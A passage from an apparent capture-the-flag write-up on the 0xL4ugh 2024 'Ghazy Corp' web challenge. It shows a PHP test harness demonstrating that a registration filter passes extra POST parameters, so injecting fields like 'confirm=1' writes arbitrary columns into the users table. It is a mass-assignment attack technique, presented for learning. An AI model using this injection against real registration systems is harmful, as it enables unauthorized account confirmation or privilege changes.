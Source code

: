 ```shell
┌[siunam♥Mercury]-(~/ctf/0xL4ugh-CTF-2024/Web/Ghazy-Corp/test)-[2024.02.11|20:32:09(HKT)]
└> php test.php
[*] POST request body data:
email=siunam@siunam321.github.io&password=12345678910&register-submit=&foobar=blah
[+] Before filtering:
Array
(
    [email] => siunam@siunam321.github.io
    [password] => 12345678910
    [register-submit] => 
    [foobar] => blah
)
[+] After filtering:
Array
(
    [email] => siunam@siunam321.github.io
    [password] => 432f45b44c432414d2f97df0e5743818
    [foobar] => blah
)
```

So, it basically do nothing.

After "filtering" our POST request body parameters, it'll prepare placeholders for the prepared SQL statement. For example, if the POST request body has 2 parameters, it'll create a string like `?, ?`. It'll also prepare the column names with the parameters. So the SQL query will become something like this:

```sql
INSERT INTO users (email, password) VALUES (?, ?)
```

Then, it'll bind the prepared statement's parameter with our POST request body parameters. In our case it'll be:

```php
$stmt->bind_param("ss", "siunam@siunam321.github.io", "432f45b44c432414d2f97df0e5743818");
```

Finally, it'll execute the prepared statement and send a registration email to our inbox.

Hmm... Since if we inject new parameters it won't get filters out, **we can insert as many data into table `users` as we want**!

For instance, **if we inject a parameter called `confirmed`, with value `1`, the SQL statement will also very welcomely insert the parameter into the table**!

```php
<?php
require_once("../src/utils.php");

// create an array similar to $_POST
$postData = "email=siunam@siunam321.github.io&password=12345678910&register-submit=&confirm=1";
echo "[*] POST request body data:\n$postData\n";

$data = array();
$keyValuePairs = explode('&', $postData);
foreach ($keyValuePairs as $pair) {
    $parts = explode('=', $pair);
    $data[$parts[0]] = $parts[1];
}
echo "[+] Before filtering:\n";
print_r($data);

$safe_array = safe_data($data);
echo "[+] After filtering:\n";
print_r($safe_array);

```